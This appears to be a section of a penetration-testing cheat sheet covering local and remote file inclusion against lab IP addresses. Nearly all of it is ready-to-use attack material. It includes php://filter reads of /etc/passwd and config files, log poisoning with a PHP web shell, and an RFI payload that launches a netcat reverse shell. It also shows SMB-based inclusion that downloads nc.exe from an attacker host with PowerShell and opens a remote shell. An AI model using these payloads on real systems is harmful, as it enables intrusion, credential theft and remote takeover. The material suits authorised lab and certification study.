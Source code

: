 
### LFI/RFI


```
fimap -u "http://10.11.1.111/example.php?test="

# Ordered output
curl -s http://10.11.1.111/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://10.11.1.111/example.php?page=

http://10.11.1.111/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd && base64 -d savefile.php
http://10.11.1.111/page=http://10.11.1.111/maliciousfile.txt%00 or ?
?page=php://filter/convert.base64-encode/resource=../config.php
../../../../../boot.ini

amap -d 10.11.1.111 8000

# LFI Windows
http://10.11.1.111/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00

# Contaminating log files
root@kali:~# nc -v 10.11.1.111 80
10.11.1.111: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.1.111] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
 
http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig

# RFI:
http://10.11.1.111/addguestbook.php?LANG=http://10.11.1.111:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://10.11.1.111/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
	<?php echo shell_exec($_GET['cmd']);?>
- Start SMB Server in attacker machine and put evil script
- Access it via browser (2 request attack):
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```

### SQL-Injection
